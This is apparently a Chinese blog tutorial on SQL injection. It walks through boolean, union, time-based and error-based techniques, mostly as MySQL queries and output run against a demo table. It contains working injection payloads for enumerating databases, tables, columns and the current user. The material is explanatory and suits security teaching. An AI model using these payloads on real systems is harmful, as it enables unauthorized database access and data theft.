 
+++
title = "浅析SQL注入"
summary = ''
description = ""
categories = []
tags = []
date = 2016-04-20T14:53:07+08:00
draft = false
+++

## SQL注入是如何产生的
SQL注入的根本原因是不安全的操作被带入到数据库中。
SQL注入从根源上可以分为int类型和string类型。
1)int类型

    "select name from students where id = $_GET['id']"
这是一个典型的未经任何过滤的注入，如果用户提交`id=-1 union select user()` ，将返回当前用户。
2)string类型

    "select name from students where area = '$_GET['area']'"
string型注入需要使用单/双引号闭合语句。如`area=%27 union select user()%23`。
在此基础上衍生出报错注入，延时注入，联合注入，编码注入，

## Boolean-based
首先不得不讲SQL中的AND和OR
AND 和 OR 可在 WHERE 子语句中把两个或多个条件结合起来。
AND:返回第一个条件和第二个条件都成立的记录。
OR:返回满足第一个条件或第二个条件的记录。
*AND和OR即为集合论中的交集和并集*

    mysql> select * from students;
    +-------+-------+-----+
    | id    | name  | age |
    +-------+-------+-----+
    | 10056 | Doris |  20 |
    | 10058 | Jaune |  22 |
    | 10060 | Alisa |  29 |
    +-------+-------+-----+
    3 rows in set (0.00 sec)


思考以下语句：
1)

    mysql> select * from students where TRUE ;
    +-------+-------+-----+
    | id    | name  | age |
    +-------+-------+-----+
    | 10056 | Doris |  20 |
    | 10058 | Jaune |  22 |
    | 10060 | Alisa |  29 |
    +-------+-------+-----+
    3 rows in set (0.00 sec)

2)

    mysql> select * from students where FALSE ;
    Empty set (0.00 sec)


3)

    mysql> SELECT * from students where id = 10056 and TRUE ;
    +-------+-------+-----+
    | id    | name  | age |
    +-------+-------+-----+
    | 10056 | Doris |  20 |
    +-------+-------+-----+
    1 row in set (0.00 sec)

4)

    mysql> select * from students where id = 10056 and FALSE ;
    Empty set (0.00 sec)
5)

    mysql> selcet * from students where id = 10056 or TRUE ;
    +-------+-------+-----+
    | id    | name  | age |
    +-------+-------+-----+
    | 10056 | Doris |  20 |
    | 10058 | Jaune |  22 |
    | 10060 | Alisa |  29 |
    +-------+-------+-----+
    3 rows in set (0.00 sec)

6)

    mysql> select * from students where id = 10056 or FALSE ;
    +-------+-------+-----+
    | id    | name  | age |
    +-------+-------+-----+
    | 10056 | Doris |  20 |
    +-------+-------+-----+
    1 row in set (0.00 sec)

**如果你足够细心，你便会发现and 1=1 , and 1=2 即是 and TRUE , and FALSE 的变种**
这便是最基础的boolean注入,以此为基础你可以自由组合语句，如
字典爆破流
`and exists(select * from ?)     //?为猜测的表名`
`and exists(select ? from x)     //?为猜测的列名`
截取二分流
`and (length((select schema_name from information_schema.schemata limit 1))>?)       //判断数据库名的长度`
`and (substr((select schema_name from information_schema.schemata limit 1),1,1)>'?')`
`and (substr((select schema_name from information_schema.schemata limit 1),1,1)<'?')      //利用二分法判断第一个字符`
*真爱生命，使用脚本*

## Union
比起多重嵌套的boolean注入，union注入相对轻松。因为，union注入可以直接返回信息而不是布尔值。
1)

    mysql> select name from students where id = -1 union select schema_name from information_schema.schemata;   //数据库名
    +--------------------+
    | name               |
    +--------------------+
    | information_schema |
    | mysql              |
    | performance_schema |
    | rumRaisin          |
    | t3st               |
    | test               |
    +--------------------+
    6 rows in set (0.00 sec)

2)

    mysql> select name from students where id = -1 union select table_name from information_schema.tables where table_schema='t3st';    //表名
    +----------+
    | name     |
    +----------+
    | master   |
    | students |
    +----------+
    2 rows in set (0.00 sec)

3)

    mysql> select name from students where id = -1 union select column_name from information_schema.columns where table_name = 'students' ;     //列名
    +------+
    | name |
    +------+
    | id   |
    | name |
    | age  |
    +------+
    3 rows in set (0.00 sec)

UNION 操作符用于合并两个或多个 SELECT 语句的结果集。请注意，UNION 内部的 SELECT 语句必须拥有相同数量的列。列也必须拥有相似的数据类型。同时，每条 SELECT 语句中的列的顺序必须相同。所以你如果想要使用union查询来进行注入，你首先要猜测后端查询语句中查询了多少列，哪些列可以回显给用户。
猜测列数

    union select 1
    union select 1,2
    union select 1,2,3
    //直到页面正常显示

## Time-based

    mysql> select name from students where id = 10056 or (select * from (select(sleep(5)))A) ;
    +-------+
    | name  |
    +-------+
    | Doris |
    +-------+
    1 row in set (5.00 sec)

显然我们经过了5s的延迟才返回了数据结果。

我们可以结合if语句来进行延时注入

    mysql> select name from students where id = 10056 and if (exists(select * from students),sleep(3),1) ;
    Empty set (3.00 sec)

## Error-based
根据错误信息提取数据:)

    mysql> select name from students where id = 10056 and (select ~0+!(select*from(select user())x)) ;
    ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '(~(0) + (not((select 'root@localhost' from dual))))'



